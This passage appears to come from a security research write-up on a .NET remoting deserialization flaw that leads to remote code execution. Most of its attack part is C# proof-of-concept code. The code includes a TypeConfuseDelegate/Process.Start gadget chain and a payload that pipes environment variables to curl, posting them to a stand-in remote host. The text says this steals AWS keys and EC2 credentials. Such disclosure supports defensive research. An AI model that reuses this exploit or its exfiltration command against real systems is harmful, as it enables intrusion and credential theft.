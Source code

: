 ```csharp
		// .ASPXAUTH cookie value
		string cookie = "<redacted>";
		SendTamperedMessage(cookie);
	}
}
```

Compiling and executing the proof-of-concept returned a response with a stack trace that revealed the use of the BinaryServerFormatterSink class:

<figure>
  <img src="/assets/img/2023/rce-executing-code.png">
  <figcaption>Figure 2 – Compiled PoC and executed program to achieve RCE</figcaption>
</figure>  

ModZero's 2020 research identified the class as vulnerable to deserialization.

## Achieving Remote Code Execution
Below is an example payload from the proof-of-concept, used to serialize a SortedSet object with a command to retrieve environment variables, AWS keys, and the AWS EC2 user data containing plaintext credentials:
```csharp
// Small snippet from PoC that generates the serialized object payload before encrypting
public static object GeneratePayload()
{
	// https://www.modzero.com/modlog/archives/2020/06/16/mz-20-03_-_new_security_advisory_regarding_vulnerabilities_in__net/index.html
	// https://github.com/modzero/MZ-20-03_PoC_NetRemoting/blob/master/RemotingExploit/Program.cs
	Comparison c = new Comparison(string.Compare);
	var c2 = Func.Combine(c, c);
	TypeConfuseDelegate(c2, new Func(Process.Start));

	Comparison c3 = (Comparison)c2;
	// Response returned is an embedded exception
	// Unable to cast object of type 'System.Collections.Generic.SortedSet`1[System.String]' to type 'System.Runtime.Remoting.Messaging.IMessage'
	// Deserialization will still happen and command will execute regardless of the above exception
	// Exfil env vars
	SortedSet s = new SortedSet(new string[] { "cmd", "/c SET | curl -X POST --data-binary @- http://remoteserver.example.com/" });
	FieldInfo fi = typeof(SortedSet).GetField("comparer", BindingFlags.NonPublic | BindingFlags.Instance);
	fi.SetValue(s, Comparer.Create(c3));
	return s;
}
```
